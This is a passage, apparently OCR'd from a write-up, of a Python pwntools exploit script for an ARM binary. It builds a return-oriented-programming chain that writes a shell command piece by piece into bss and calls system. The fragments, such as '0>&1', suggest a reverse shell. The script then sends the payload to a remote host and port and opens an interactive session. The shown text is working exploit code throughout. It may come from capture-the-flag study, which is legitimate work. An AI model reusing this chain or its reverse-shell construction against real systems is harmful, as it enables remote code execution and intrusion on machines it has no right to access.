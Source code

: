 
    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += 'id/7' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"
    

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += '777 ' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"
    

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += '0>&1' # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"

    p += p32(pop_r0_r1_r2_r3)
    p += p32(bss)
    p += " '  " # ini 
    p += "AAAA"
    p += p32(bss+4+4+4+4+4+4+4+4+4+4+4+4+4+4+4+4)
    p += p32(str_r1_r3_pop_r4_r5_r6)
    p += p32(0)
    p += p32(system)
    p += "CCCC"



    p += p32(system-1)



    # print p
    r.sendline(p)
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("202.148.27.84", 20002)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

# exploit()

{% endhighlight %}
